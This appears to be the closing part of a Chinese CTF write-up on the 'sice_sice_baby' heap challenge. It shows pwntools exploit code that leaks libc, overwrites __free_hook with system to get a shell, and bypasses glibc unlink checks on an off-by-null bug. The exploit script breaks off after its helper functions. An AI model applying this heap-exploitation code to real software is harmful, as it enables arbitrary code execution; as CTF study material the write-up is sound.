 堆块重叠之后一切就好搞了

泄露堆上残留的libc并且打free_hook

```
add(0xd8)
    show(0x3b)
    data = uu64(r(6))
    lg('data',data)
    addr = data - 0x7f9c8b652be0 + 0x7f9c8b468000
    lg('addr',addr)

    #---------------------------------------------------------------------------------
    claim(0xe8)
    add(0xe8)#0x40
    delete(0x2b)
    delete(0x3b)
    edit(0x40,p64(addr+libc.sym['__free_hook']-8))
    add(0xe8)
    add(0xe8)
    edit(0x3b,"/bin/sh\x00"+p64(addr+libc.sym['system']))
    delete(0x3b)
```



## 总结

难度不是特别大，但是就是有点麻烦

​ 起始之前遇到过2.29以上的堆块off-by-null,但是之前没有申请大小的限制，所以用的largebin去残留heap地址进而绕过unlink检测，这次加了限制之后就比较复杂，利用unsortbin成链去绕过的unlink，总体来说还是学到了很多，复习了很多glibc知识，菜还是菜了，希望文章对大家有用~~~



## exp

```
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level = 'debug'
context.terminal=['tmux', 'splitw', '-h']
prog = './sice_sice_baby'
#elf = ELF(prog)
p = process(prog)#,env=`{`"LD_PRELOAD":"./libc-2.27.so"`}`)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.30.so")
# p = remote("124.70.197.50", 9010)
def debug(addr,PIE=True): 
    debug_str = ""
    if PIE:
        text_base = int(os.popen("pmap `{``}`| awk '`{``{`print $1`}``}`'".format(p.pid)).readlines()[1], 16) 
        for i in addr:
            debug_str+='b *`{``}`\n'.format(hex(text_base+i))
        gdb.attach(p,debug_str) 
    else:
        for i in addr:
            debug_str+='b *`{``}`\n'.format(hex(text_base+i))
        gdb.attach(p,debug_str) 

def dbg():
    gdb.attach(p)
#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))        #in case that data is an int
sa      = lambda delim,data         :p.sendafter(str(delim), str(data)) 
sl      = lambda data               :p.sendline(str(data)) 
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data)) 
```